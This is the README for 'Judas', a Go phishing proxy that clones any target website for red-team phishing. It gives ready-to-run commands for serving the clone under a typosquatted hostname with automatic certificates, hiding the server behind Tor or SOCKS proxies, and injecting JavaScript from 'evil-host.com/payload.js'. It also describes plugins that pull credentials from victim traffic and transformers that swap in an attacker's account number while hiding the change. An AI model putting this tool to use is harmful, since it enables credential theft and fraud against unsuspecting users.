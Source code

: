 Judas
=====
Judas is a pluggable phishing proxy.
It can clone any website passed to it using command line flags, and you can extend it with Go plugins for fun and (legal) profit.
Judas is meant to be used in red team phishing exercises to phish victims without them being able to notice.
When combined with effective typosquatting, Judas is unstoppable.

```
Usage of judas:
  -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -inject-js string
        URL to a JavaScript file you want injected.
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream SOCKS5 proxy. Useful for torification.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -with-profiler
        Attach profiler to instance.
```

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.
Judas supports SOCKS5 and HTTP proxies.
HTTP proxies must being with `http://` and socks5 proxies must begin with `socks5://`

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
Plugins run in their own goroutine and judas will recover from panics, so you don't need to worry too much about what you do in the plugins.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Listener with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Listener, error)
```

The `judas.Listener` interface has one method: `Listen`.

```
// Listener implementations will be given a stream of HTTPExchanges to let plugins capture valuable information out of request-response transactions.
type Listener interface {
	Listen(<-chan *HTTPExchange)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Listeners can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

Plugins can also modify requests after they come from the victim and responses after they're returned from the server.
This is useful when you want to modify a request on the fly, like replacing an account number with yours.
To take advantage of this, simply create a custom `RequestTransformer` or `ResponseTransformer`.

```
// RequestTransformer modifies a request before it is sent to the target website.
// This can be used to hijack victim actions, like replacing an account number with ours.
// Delays in this function will slow down the phishing site for the victim.
// Your RequestTransformer should be a function called "RequestTransformer"
type RequestTransformer func(*http.Request) error

// ResponseTransformer modifies a response before it is returned to the victim.
// You can use ResponseTransformers to hide any visible results of a RequestTransformer.
// Delays in this function will slow down the phishing site for the victim.
// Your ResponseTransformer should be a function called "ResponseTranformer"
type ResponseTransformer func(*http.Response) error
```

You only have to implement the methods you're using.
You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

Example:
```
judas \
     --target https://www.google.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugins ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin examples/searchloggingplugin/searchloggingplugin.go
```